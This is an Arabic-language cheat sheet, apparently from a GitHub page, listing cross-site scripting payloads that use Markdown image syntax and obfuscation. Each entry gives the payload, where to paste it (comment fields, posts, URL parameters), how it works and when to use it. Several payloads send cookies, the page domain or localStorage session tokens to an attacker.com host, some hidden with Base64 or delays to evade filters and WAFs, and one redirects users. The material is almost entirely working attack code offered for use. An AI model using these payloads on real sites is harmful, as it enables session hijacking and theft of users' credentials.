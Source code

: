 #### د. حقن باستخدام صيغ Markdown للصور
استخدام صيغة الصور في Markdown لإدراج وسوم ضارة.
- **الحقن**: `![alt](x onload=alert('XSS'))`
  - **الإدخال**: أدخل في منشور: `![alt](x onload=alert('XSS'))`
  - **كيف يعمل**: يُحول إلى `<img src="x" onload="alert('XSS')">` وينفذ تنبيهًا.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<img>` مباشرة.
- **الحقن**: `![alt](x onload=fetch('http://attacker.com/log?c='+document.cookie))`
  - **الإدخال**: أدخل في حقل تعليق: `![alt](x onload=fetch('http://attacker.com/log?c='+document.cookie))`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات.
- **الحقن**: `![alt](x onerror=fetch('http://attacker.com/log?d='+document.domain))`
  - **الإدخال**: `https://example.com/?comment=![alt](x onerror=fetch('http://attacker.com/log?d='+document.domain))`
  - **كيف يعمل**: يرسل النطاق عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `![alt](x onload=document.location='http://attacker.com')`
  - **الإدخال**: أدخل في وصف: `![alt](x onload=document.location='http://attacker.com')`
  - **كيف يعمل**: يعيد توجيه المستخدم عند تحميل الصورة.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `![alt](x onload=new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'))`
  - **الإدخال**: أدخل في منشور: `![alt](x onload=new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'))`
  - **كيف يعمل**: يرسل رمز الجلسة عند تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### هـ. حقن مع التعتيم
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF.
- **الحقن**: `[Click](javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp')))`
  - **الإدخال**: أدخل في منشور: `[Click](javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp')))`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لتجنب أنظمة الكشف.
- **الحقن**: `<img src=x onload="alert(String.fromCharCode(88,83,83))">`
  - **الإدخال**: أدخل في وصف: `<img src=x onload="alert(String.fromCharCode(88,83,83))">`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>`
  - **كيف يعمل**: يؤخر إرسال البيانات لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `![alt](x onload=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp')))`
  - **الإدخال**: أدخل في منشور: `![alt](x onload=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp')))`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط عند تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر صارمة.
